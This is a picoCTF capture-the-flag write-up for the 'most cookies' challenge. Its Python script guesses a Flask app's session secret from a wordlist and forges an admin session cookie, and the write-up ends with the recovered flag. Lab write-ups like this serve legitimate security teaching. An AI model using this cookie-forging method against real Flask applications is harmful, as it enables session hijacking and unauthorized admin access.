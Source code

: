 # most cookies
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [link](http://mercury.picoctf.net:18835/)
> files given: server.py

## Approach
Came across the same website as I had during the Cookies challenge. Except this time it was about flask cookies. 
![](./images/MostCook2.png)
So I wrote a python script as follows: 
``` bash
import hashlib
from itsdangerous import URLSafeTimedSerializer
from itsdangerous.exc import BadTimeSignature
from flask.sessions import TaggedJSONSerializer
def flask_cookie(secret_key, cookie_str, operation):
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
    s = URLSafeTimedSerializer(secret_key, salt=salt, serializer=serializer, signer_kwargs=signer_kwargs)
    if operation == "decode":
        return s.loads(cookie_str)
    else:
        return s.dumps(cookie_str)

possible_keys = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

cookie_str = "eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZzC_pw.HY7ZlLhs7tCvf4ZFhKSFChjuBwE"

for possible_secret_key in possible_keys:
    try:
        cookie_decoded = flask_cookie(possible_secret_key, cookie_str, "decode")
    except BadTimeSignature:
        continue
    secret_key = possible_secret_key
    break

print("Secret Key: %s" % secret_key)
admin_cookie = {"very_auth": "admin"}
admin_cookie_encoded = flask_cookie(secret_key, admin_cookie, "encode")

print("admin cookie: %s" % admin_cookie_encoded)
```
![](./images/MostCook1.png)
Input my server cookie and verified all the different cookie types. Then input the key as 'fortune' and changed the server cookie to the admin cookie as output.
![](./images/MostCook3.png)
Reloaded the page to get the flag.

### flag: picoCTF{pwn_4ll_th3_cook1E5_743c20eb}

